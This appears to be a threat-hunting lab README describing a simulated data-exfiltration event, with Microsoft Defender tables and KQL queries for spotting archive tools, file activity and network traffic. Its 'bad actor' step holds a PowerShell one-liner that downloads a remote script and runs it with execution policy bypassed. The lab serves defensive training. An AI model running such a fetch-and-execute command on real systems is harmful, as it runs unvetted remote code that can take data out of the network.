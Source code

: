 # Threat Event (Suspected Exfiltration of Company Data)
**Use of Powershell to run "Malicious" script**

## Steps the "Bad Actor" took Create Logs and IoCs:
1. Execute the following code in Powershell:
- Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1' -OutFile 'C:\programdata\exfiltratedata.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\exfiltratedata.ps1

## What this script does:
- exfiltratedata.ps1 is a PowerShell script designed to simulate data exfiltration for cybersecurity training and testing. It demonstrates how sensitive files might be collected and transmitted by an attacker. Intended for use in controlled environments only.
---

## Tables Used to Detect IoCs:
| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceProcessEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| Used for detection of archival software execution. |

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceFileEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| Used to detect the silent installation of 7zip as well as execution of exfiltratedata.ps1 powershell script.|

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceNetworkEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table|
| **Purpose**| Used to determine if any data has been exfiltrated from the network.|

---

## Related Queries:
```kql
// Look for any kind of archive activity
let archive_applications = dynamic(["winrar.exe", "7z.exe", "winzip32.exe", "peazip.exe", "Bandizip.exe", "UniExtract.exe", "POWERARC.EXE", "IZArc.exe", "AshampooZIP.exe", "FreeArc.exe"]);
let VMName = "windows-target-1";
DeviceProcessEvents
| where FileName has_any(archive_applications)
| order by Timestamp desc


// Look for any file activity, based on the Timestamp from any discovered process activity
let specificTime = datetime(2024-10-15T19:00:48.5615171Z);
let VMName = "windows-target-1";
DeviceFileEvents
| where Timestamp between ((specificTime - 1m) .. (specificTime + 1m))
| where DeviceName == VMName
| order by Timestamp desc


// Look for any network activity, based on the Timestamp from the process or file activity
let VMName = "windows-target-1";
let specificTime = datetime(2024-10-15T19:00:48.5615171Z);
DeviceNetworkEvents
| where Timestamp between ((specificTime - 2m) .. (specificTime + 2m))
| where DeviceName == VMName
| order by Timestamp desc


```

---

## Created By:
- **Author Name**: Jordan West
- **Author Contact**: https://www.linkedin.com/in/jordan-west-it/
- **Date**: April 15, 2025

## Validated By:
- **Reviewer Name**: 
- **Reviewer Contact**: 
- **Validation Date**: 

---

## Additional Notes:
- **None**

---

## Revision History:
| **Version** | **Changes**                   | **Date**         | **Modified By**   |
|-------------|-------------------------------|------------------|-------------------|
| 1.0         | Initial Draft                 |'September 6, 2024'| 'Josh Madakor' |
| 2.0         | Updated draft                 | `April 16, 2025`  | `Jordan West`   |

